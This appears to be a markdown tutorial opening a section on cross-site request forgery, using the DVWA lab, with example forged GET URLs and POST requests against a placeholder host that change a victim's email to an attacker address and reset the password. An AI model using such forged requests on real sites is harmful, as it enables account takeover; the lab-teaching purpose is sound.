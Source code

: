 ## 1. CSRF Attack

![](https://portswigger.net/web-security/images/cross-site%20request%20forgery.svg)
>We will use DVWA Labs To Learn CSRF Attack


**What is CSRF Attack?**

In a successful CSRF attack, the attacker causes the victim user to carry out an action unintentionally. For example, this might be to change the email address on their account, to change their password, or to make a funds transfer. Depending on the nature of the action, the attacker might be able to gain full control over the user's account. If the compromised user has a privileged role within the application, then the attacker might be able to take full control of all the application's data and functionality. 

**Example URL (GET Method)**

```
http://target-vuln-web.com/email/change?email=attacker@anon.net
http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass
```
**Example Request (POST Method)**

```
POST /email/change HTTP/1.1
Host: target-vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=cookievalues

email=attacker@anon.net
```

```
POST user/new_password HTTP/1.1
Host: target-vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=cookievalues

password=newpass&comfirm_password=newpass
```
